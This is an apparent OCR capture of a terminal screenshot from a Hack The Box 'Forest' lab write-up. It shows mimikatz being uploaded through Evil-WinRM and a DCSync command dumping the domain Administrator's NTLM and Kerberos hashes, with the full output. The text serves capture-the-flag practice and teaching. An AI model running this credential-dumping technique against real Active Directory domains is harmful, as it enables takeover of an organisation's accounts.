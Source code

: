 ```powershell
                                        
Info: Uploading /home/oste/Desktop/CTF/HTB/Forest/mimikatz.exe to C:\Users\pwned\Documents\mimikatz.exe
                                        
Data: 1445888 bytes of 1445888 bytes copied
                                        
Info: Upload successful!

*Evil-WinRM* PS C:\Users\pwned\Documents> .\mimikatz.exe "lsadump::dcsync /user:Administrator /domain:htb.local" exit

  .#####.   mimikatz 2.2.0 (x86) #19041 Sep 19 2022 17:43:26
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # lsadump::dcsync /user:Administrator /domain:htb.local
[DC] 'htb.local' will be the domain
[DC] 'FOREST.htb.local' will be the DC server
[DC] 'Administrator' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : Administrator

** SAM ACCOUNT **

SAM Username         : Administrator
User Principal Name  : Administrator@htb.local
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000200 ( NORMAL_ACCOUNT )
Account expiration   :
Password last change : 8/30/2021 5:51:58 PM
Object Security ID   : S-1-5-21-3072663084-364016917-1341370565-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: 32693b11e6aa90eb43d32c72a07ceea6
    ntlm- 0: 32693b11e6aa90eb43d32c72a07ceea6
    ntlm- 1: 9307ee5abf7791f3424d9d5148b20177
    ntlm- 2: 32693b11e6aa90eb43d32c72a07ceea6
    lm  - 0: 9498c81fd53411e023fcd1ff4cd3e482
    lm  - 1: f505fe58b1dedbe3015454d212af5115

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : cad4a87763ba795c795b96486148bb95

* Primary:Kerberos-Newer-Keys *
    Default Salt : HTB.LOCALAdministrator
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 910e4c922b7516d4a27f05b5ae6a147578564284fff8461a02298ac9263bc913
      aes128_hmac       (4096) : b5880b186249a067a5f6b814a23ed375
      des_cbc_md5       (4096) : c1e049c71f57343b
    OldCredentials
      aes256_hmac       (4096) : 44f53d59845f6fc874991dadd99efa2513ed4f1d26762c2130cb6af13c39d90a
      aes128_hmac       (4096) : 08f52532321ad13ccb9f2dc613aac29d
      des_cbc_md5       (4096) : 977a57459e191a98

* Primary:Kerberos *
```